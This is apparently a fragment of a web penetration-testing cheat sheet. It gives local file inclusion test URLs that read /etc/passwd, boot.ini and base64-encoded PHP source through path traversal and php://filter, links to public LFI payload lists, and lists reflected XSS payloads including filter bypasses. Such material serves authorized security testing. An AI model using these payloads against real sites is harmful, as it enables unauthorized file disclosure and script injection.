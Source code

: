 #### How to Test

```
http://<target>/index.php?parameter=php://filter/convert.base64-encode/resource=index
```

```
http://<target>/script.php?page=../../../../../../../../etc/passwd

```

```
http://<target>/script.php?page=../../../../../../../../boot.ini
```

#### LFI Payloads

- [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders)
- [Seclist LFI Intruder](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

### encode

## XSS

### Reflected

#### Simple test

This is a simple test to see what happens, this is not a prove that the field is vuln to xss

```javascript
<plaintext>
```

#### Simple XSS test

```javascript
<script>alert('Found')</script>
```

```javascript
"><script>alert(Found)</script>">
```

```javascript
<script>alert(String.fromCharCode(88,83,83))</script>
```

#### Bypass filter of tag script

`"  onload="alert(String.fromCharCode(88,83,83))`

```javascript
" onload="alert('XSS')
```

bla is not a valid image, so this cause an error
